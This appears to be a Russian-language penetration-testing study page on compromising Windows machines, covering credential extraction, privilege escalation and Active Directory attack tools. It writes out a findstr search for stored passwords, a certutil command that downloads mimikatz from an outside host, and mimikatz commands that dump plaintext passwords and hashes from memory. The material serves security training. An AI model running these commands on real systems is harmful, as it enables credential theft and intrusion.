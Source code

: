 ### Компрометация Windows-машин в сети

## **Материалы для самостоятельного изучения**

- [Памятка](https://github.com/frostbits-security/MITM-cheatsheet) по атакам MITM
- [Телеграмм канал](https://t.me/c4s73r_channel) Магамы Базарова - эксперта по сетевым атакам
- [Responder](https://github.com/lgandx/Responder)
- [Все об атаках](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/) на аутентификацию в Windows
- [О работе атаки](https://en.hackndo.com/ntlm-relay/) NTLM Relay


# Извлечение секретов и учетных данных
## Яркими представителями этой категории являются следующие методы повышения привилегий:
- Взлом менеджеров паролей пользователей по причине небезопасной конфигурации
- Обнаружение секретов и учетных в логах и истории команд
- Извлечение учетных данных из оперативной памяти
- Доступ к файлу, хранящемуся хеши пользовательских паролей 
- Извлечение учетных данных из конфигурации Групповых Политик

# Поиск секретов и паролей в ОС
В первую очередь мы помним, что можно попытаться самостоятельно поискать пароли в различных файлах ОС при помощи команд терминальной оболочки, например:

cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config

Эта команда выполняет поиск строки "password" внутри всех файлов с расширениями .xml, .ini, .txt и .config в текущем диске C:.

Более подробно, каждая часть команды выполняет следующие действия:
cd C:\ — переходит в корневую папку диска C:
findstr — команда для поиска строк в файлах
/s — выполняет поиск строк во всех подпапках
/p — пропускает файлы с непечатными символами
/i — игнорирует регистр символов при поиске строк
/n — выводит номер строки, содержащей строку
/m — выводит только имя файла, если файл содержит совпадение


# Извлечение учетных данных из оперативной памяти
Самым ярким примером здесь будет извлечение учетных данных из оперативной памяти процессов.
Факт:
В Windows для реализации механизма HTTP Digest Authentication для поддержки SSO (Single Sign On) требуют знание вводимого пароля, а не только его хеша. Поэтому разработчики Windows решили хранить пароли пользователей в открытом виде. Для извлечения паролей и хешей из оперативной памяти можно использовать инструмент Mimikatz.


# Mimikatz — инструмент, реализующий функционал Windows Credentials Editor и позволяющий извлекать учетные данные пользователей Windows.
Дополнительную информацию по данному инструменту можно получить по следующим ссылкам: \
• Что такое Mimikatz: руководство для начинающих — https://habr.com/ru/company/varonis/blog/539340/ \
•  Справка по mimikatz — https://kali.tools/?p=5342

# Применение Mimikatz
•  Для загрузки инструмента mimikatz необходимо перейти в папку с правами на запись, например в C:\Windows\System32\spool\drivers\color. \
•  Далее следует загрузить mimikatz на целевую машину. Это можно сделать утилитой, позволяющей скачивать файл по сети certutil: certutil -urlcache -split -f http://10.10.14.16/mimikatz.exe m.exe \
•  После запуска Mimi нужно указать следующую команду, которая предоставит текущей учетной записи права отладки процессов (SeDebugPrivilege): privilege::debug \
•  Следующая команда вернет список всех хранящихся на этой машине хешей и паролей в виде незашифрованного текста:sekurlsa::logonPasswords \


## Условия для Mimikatz
Для того, чтобы Mimikatz успешно извлёк пароли и хеши, необходимы права SeDebugPrivilege, которые, как правило, есть у Администратора и нечасто встречаются у рядового пользователя. Тем не менее, процедура извлечения учётных данных из памяти необходима в рамках проведения работ по пентесту для возможности как вертикального, так и горизонтального перемещения.



# Эксплуатация уязвимостей конфигурации ОС Windows
В этой категории яркими примерами возможных методов повышения привилегий будут следующие: \
• Повышение привилегий через права на создание резервных копий (SeBackupPrivilege) \
• Повышение привилегий через через перехват сервиса (Weak Services Permission) \
• Повышение привилегий через имперсонификацию SeImpersonatePrivilege (JyicyPotato) \
• Повышение привилегий через права на установку ПО (AlwaysInstallElevated) \
• Повышение привилегий через изменение пути бинарного файла сервиса (Service Binary Path) \
• Повышение привилегий через подмену DLL библиотек (DLL Hijacking) \
• Повышение привилегий через неэкранированные пути сервисов (Unquoted Service Paths) \


# Эксплуатация известных уязвимостей ОС Windows
Приведем пример некоторых достаточно популярных уязвимостей ОС, позволяющих повысить привилегии до максимальных: \
• Уязвимость в установщике Windows (InstallerFileTakeOver (0day) \
• Уязвимость в Windows Print Spooler (PrintNightmare) \
• Уязвимость в планировщике задач Windows (MS10-092) \
• Уязвимость в ядре Windows (MS16_014) \
• Обработка вторичного входа в систему (MS16-032) \


# Рекомендуемые ресурсы
• Hacktrics: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

# Active Directory:
• Чеклист по тестированию защищенности Active Directory:  \
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology \
• Эксплуатация Zerologon:  \
https://medium.com/mii-cybersec/zerologon-easy-way-to-take-over-active-directory-exploitation-c4b38c63a915 \
• Эксплуатация уязвимостей в AD CS \
https://posts.specterops.io/certified-pre-owned-d95910965cd2 \

Помимо блогов, предлагаем вам подборку отличных инструментов, ориентированных на Active Directory, которые не только полезны, но и могут позволить вам изучить множество механизмов и протоколов Active Directory, просмотрев их код (это далеко не исчерпывающий список, и многие другие перечислены и показаны в статье выше). \
• mimikatz[Link text Here]https://github.com/ParrotSec/mimikatz:  вероятно, самый известный инструмент для атаки на Windows и Active Directory. Он реализует на C все виды атак для получения учетных данных с компьютеров Windows и выдачи себя за пользователей в Active Directory. \
• impacket: Impacket реализует многие из протоколов на python, и стоит знать, как это работает, чтобы узнать о них больше. Он также включает в себя множество примеров, реализующих атаки, описанные в статье. \
• responder.py: Responder позволяет вам выполнять множество PitM-атак, злоупотребляя протоколами разрешения Windows и предоставляя вам множество серверов протоколов, которые будут собирать NTLM-хэши. Стоит знать, как это работает. \
• Rubeus: Rubeus – это пакет C# для выполнения атак Kerberos с компьютеров под управлением Windows. Вы можете проверить это, чтобы узнать много нового о том, как работает Kerberos. \
• CrackMapExec: CME – это инструмент на python, который позволяет вам простым способом выполнять множество различных атак, описанных здесь. \
• BloodHound: BloodHound позволяет вам сопоставлять сеть Active Directory с множеством различных запросов LDAP и другими. Вам следует проверить это, если вы хотите узнать о разведке Active Directory. \
• Powerview: инструмент Powershell, который реализует множество LDAP-запросов Active Directory и других протоколов для извлечения всех видов информации из Active Directory. \
• Empire: набор для развертывания агентов на компьютерах Active Directory, который позволяет выполнять все виды атак. Содержит множество инструментов для выполнения разведки и атак через Active Directory, которые стоит проверить. \
